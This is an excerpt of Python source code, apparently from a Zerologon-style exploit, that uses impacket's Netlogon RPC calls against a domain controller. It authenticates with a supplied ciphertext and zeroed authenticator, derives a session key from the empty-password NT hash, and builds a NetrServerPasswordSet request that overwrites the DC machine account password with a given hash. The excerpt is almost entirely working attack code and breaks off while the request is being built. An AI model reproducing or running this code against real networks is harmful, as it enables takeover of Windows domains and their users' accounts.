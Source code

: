 ```
  flags = 0x212fffff

  # Send challenge and authentication request.
  serverChallengeResp = nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
  serverChallenge = serverChallengeResp['ServerChallenge']
  try:
    server_auth = nrpc.hNetrServerAuthenticate3(
      rpc_con, dc_handle + '\x00', target_computer+"$\x00", nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,
      target_computer + '\x00', ciphertext, flags
    )


    # It worked!
    assert server_auth['ErrorCode'] == 0
    print()
    server_auth.dump()
    print("server challenge", serverChallenge)
    sessionKey = nrpc.ComputeSessionKeyAES(None,b'\x00'*8, serverChallenge, unhexlify("31d6cfe0d16ae931b73c59d7e0c089c0"))
    print("session key", sessionKey)

    try:
      IV=b'\x00'*16
      #Crypt1 = AES.new(sessionKey, AES.MODE_CFB, IV)
      #serverCred = Crypt1.encrypt(serverChallenge)
      #print("server cred", serverCred)
      #clientCrypt = AES.new(sessionKey, AES.MODE_CFB, IV)
      #clientCred = clientCrypt.encrypt(b'\x00'*8)
      #print("client cred", clientCred)
      #timestamp_var = 10
      #clientStoredCred =  pack('<Q', unpack('<Q', b'\x00'*8)[0] + timestamp_var)
      #print("client stored cred", clientStoredCred)
      authenticator = nrpc.NETLOGON_AUTHENTICATOR()
      #authenticatorCrypt = AES.new(sessionKey, AES.MODE_CFB, IV)
      #authenticatorCred = authenticatorCrypt.encrypt(clientStoredCred);
      #print("authenticator cred", authenticatorCred)
      authenticator['Credential'] = ciphertext #authenticatorCred
      authenticator['Timestamp'] = b"\x00" * 4 #0 # timestamp_var
      #request = nrpc.NetrLogonGetCapabilities()
      #request['ServerName'] = '\x00'*20
      #request['ComputerName'] = target_computer + '\x00'
      #request['Authenticator'] = authenticator
      #request['ReturnAuthenticator']['Credential'] = b'\x00' * 8
      #request['ReturnAuthenticator']['Timestamp'] = 0 
      #request['QueryLevel'] = 1
      #resp = rpc_con.request(request)
      #resp.dump()

      nrpc.NetrServerPasswordSetResponse = NetrServerPasswordSetResponse
      nrpc.OPNUMS[6] = (NetrServerPasswordSet, nrpc.NetrServerPasswordSetResponse)

      request = NetrServerPasswordSet()
      request['PrimaryName'] = NULL
      request['AccountName'] = target_computer + '$\x00'
      request['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
      request['ComputerName'] = target_computer + '\x00'
      request["Authenticator"] = authenticator
      #request['ReturnAuthenticator']['Credential'] = b'\x00' * 8
      #request['ReturnAuthenticator']['Timestamp'] = 0
      pwdata = impacket.crypto.SamEncryptNTLMHash(unhexlify(originalpw), sessionKey)
      request["UasNewPassword"] = pwdata
```
